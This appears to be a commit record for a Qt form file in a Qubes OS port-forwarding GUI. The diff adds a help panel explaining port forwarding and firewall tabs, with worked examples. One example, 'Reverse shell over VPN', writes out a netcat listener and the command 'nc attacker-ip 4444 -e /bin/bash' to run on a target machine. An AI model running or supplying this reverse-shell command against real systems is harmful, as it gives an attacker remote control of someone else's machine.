
Qt form ui/index.ui (dismantl/qubes-forward-gui) before a commit.

The same form after that commit. The open tabs and pages were chosen to show the change.

Commit message: add firewall support

The edit to the form file:
```diff
--- a/ui/index.ui
+++ b/ui/index.ui
@@ -255,7 +255,30 @@
       </attribute>
       <layout class="QGridLayout" name="gridLayout_5">
        <item row="0" column="0">
-        <layout class="QVBoxLayout" name="verticalLayout_4"/>
+        <layout class="QVBoxLayout" name="verticalLayout_4">
+         <item>
+          <widget class="QTextBrowser" name="textBrowser_2">
+           <property name="html">
+            <string>&lt;!DOCTYPE HTML PUBLIC &quot;-//W3C//DTD HTML 4.0//EN&quot; &quot;http://www.w3.org/TR/REC-html40/strict.dtd&quot;&gt;
+&lt;html&gt;&lt;head&gt;&lt;meta name=&quot;qrichtext&quot; content=&quot;1&quot; /&gt;&lt;style type=&quot;text/css&quot;&gt;
+p, li { white-space: pre-wrap; }
+&lt;/style&gt;&lt;/head&gt;&lt;body style=&quot; font-family:'Sans'; font-size:10pt; font-weight:400; font-style:normal;&quot;&gt;
+&lt;h3 style=&quot; margin-top:14px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:large; font-weight:600;&quot;&gt;Tabs&lt;/span&gt;&lt;/h3&gt;
+&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Port Forwarding&lt;/span&gt;&lt;/h4&gt;
+&lt;p style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;You can easy forwarding any TCP port between 2 qubes&lt;/p&gt;
+&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Firewall&lt;/span&gt;&lt;/h4&gt;
+&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;By default Qubes OS deny any connections outside the world, for example, if you'll try to open &lt;span style=&quot; font-family:'monospace';&quot;&gt;0.0.0.0:8000&lt;/span&gt; in &lt;span style=&quot; font-family:'monospace';&quot;&gt;sys-net&lt;/span&gt;, you still haven't access. Here you can fix that limitation. &lt;/p&gt;
+&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;About&lt;/span&gt;&lt;/h4&gt;
+&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Donation tab &lt;/p&gt;
+&lt;h3 style=&quot; margin-top:14px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:large; font-weight:600;&quot;&gt;Some exmples&lt;/span&gt;&lt;/h3&gt;
+&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Start web server on personal:8000 and access for it using moble in the same wifi network&lt;/span&gt;&lt;/h4&gt;
+&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Run &lt;span style=&quot; font-family:'monospace';&quot;&gt;python -m http.server 8000&lt;/span&gt; in &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal&lt;/span&gt; qube. Add port forward rule: &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal:8000 =&amp;gt; sys-net:1337&lt;/span&gt; after that open port in firewall tab &lt;span style=&quot; font-family:'monospace';&quot;&gt;sys-net:1337&lt;/span&gt;. On the mobile device in browser open &lt;span style=&quot; font-family:'monospace';&quot;&gt;http://your-laptop-ip:1337&lt;/span&gt;&lt;/p&gt;
+&lt;h4 style=&quot; margin-top:12px; margin-bottom:12px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;&lt;span style=&quot; font-size:medium; font-weight:600;&quot;&gt;Reverse shell over VPN&lt;/span&gt;&lt;/h4&gt;
+&lt;p style=&quot; margin-top:0px; margin-bottom:0px; margin-left:0px; margin-right:0px; -qt-block-indent:0; text-indent:0px;&quot;&gt;Run &lt;span style=&quot; font-family:'monospace';&quot;&gt;sudo nc -lvp 4444&lt;/span&gt; in &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal&lt;/span&gt; qube. Add firewall rule &lt;span style=&quot; font-family:'monospace';&quot;&gt;personal:4444&lt;/span&gt;. Access to your shell from target machine &lt;span style=&quot; font-family:'monospace';&quot;&gt;nc attacker-ip 4444 -e /bin/bash&lt;/span&gt;&lt;/p&gt;&lt;/body&gt;&lt;/html&gt;</string>
+           </property>
+          </widget>
+         </item>
+        </layout>
        </item>
       </layout>
      </widget>
```
Left out of the diff: 4 changed lines with no effect on the pictures. The commit also changes 8 other files.
